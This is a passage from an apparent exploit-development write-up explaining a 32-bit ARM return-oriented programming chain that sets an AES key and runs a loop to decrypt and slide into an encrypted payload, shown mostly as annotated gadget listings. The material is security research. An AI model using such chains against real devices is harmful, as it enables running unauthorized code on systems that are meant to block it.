 ```
  .word BASE+0x0001fdc5 @ mov r3, lr ...
```

The return pointer was set from a previous gadget

```
  .word BASE+0x000050e9 @ mov r0, r7 @ blx r3
```

and this intricately links the previous section for getting the memory base to setting the key here. Also note that since the key is in kernel code, as long as the kernel code is safe, our payload code will also be protected in our security model. In practice though, since we are using AES-ECB, we are vulnerable to replay attacks but more on that later...

### Decrypt Loop

The loop was tricky to implement. We have a counter in SB that is incremented in each iteration. To keep things simple we also increment it in the first iteration which puts our payload at offset 0x10. Thankfully this still works as 0x00000000 is a NOP in 32-bit ARM so we can slide into our payload. The loop logic involves conditionally subtracting from the stack pointer. To do this, we first save the "right" stack pointer into R4

```
  .word BASE+0x0001d9eb @ add r2, sp, #0xbc ..,
.Lsp_offset_start:
  ...
  .word BASE+0x00000853 @ pop {r0, r1, pc}
  .word      0xDEADBEEF @ r0 = dummy
  .word (0xbc - (.Lloop_end - .Lsp_offset_start)) @ r1 = 0xbc-sizeof(loop)
  .word BASE+0x000000ab @ subs r2, r2, r1 ...
  ...
  .word BASE+0x0002328b @ movs r1, r2 ...
  ...
  .word BASE+0x000000d1 @ movs r4, r1 ...
```

This puts R4 at ".Lloop_end" which is exactly the value of SP if the loop condition is not met.

```
  .word BASE+0x0001bf1f @ movs r2, r4 ...
  ...
  .word (-(.Lloop_end-decrypt_loop_start)) @ r3 = offset to start of loop
  .word BASE+0x0000039b @ pop {r4, pc}
  .word (ENC_PAYLOAD_SIZE ^ 0x40) @ r4 = (payload size) ^ 0x40
  .word BASE+0x00022a49 @ subs r0, r0, r4 ...
  ...
  .word BASE+0x00003d73 @ ite ne @ movne r0, r3 @ moveq r0, #0 ...
  ...
  @ add either 0 or offset to loop start to r2 (sp at loop end)
  .word BASE+0x000021fd @ add r0, r2 ...
  ...
  .word BASE+0x00000ae1 @ movs r1, r0 ...
  ...
  .word BASE+0x0002a117 @ pop {r2, r5, pc}
  .word BASE+0x00000347 @ r2 = pop {pc}
  .word BASE+0x0001f2b1 @ r5 = ...
  .word BASE+0x00000067 @ mov sp, r1 @ blx r2
.Lloop_end:
```
